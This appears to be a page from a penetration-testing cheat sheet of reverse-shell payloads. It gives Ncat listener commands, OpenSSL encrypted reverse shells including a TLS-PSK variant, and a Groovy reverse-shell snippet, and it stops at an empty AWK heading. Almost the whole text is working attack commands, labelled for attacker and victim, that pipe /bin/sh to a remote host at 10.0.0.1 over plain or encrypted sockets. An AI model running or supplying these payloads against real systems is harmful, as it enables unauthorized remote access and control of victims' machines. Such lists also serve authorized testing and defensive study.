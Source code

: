## <mark style="color:red;">Ncat</mark>

```
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## <mark style="color:red;">OpenSSL</mark>

Attacker:

```
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
or
user@attack$ ncat --ssl -vv -l -p 4242

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

TLS-PSK (does not rely on PKI or self-signed certificates)

```
# generate 384-bit PSK
# use the generated string as a value for the two PSK variables from below
openssl rand -hex 48 
# server (attacker)
export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT
# client (victim)
export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE
```

## <mark style="color:red;">Groovy</mark>

```
String host="10.0.0.1";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## <mark style="color:red;">AWK</mark>
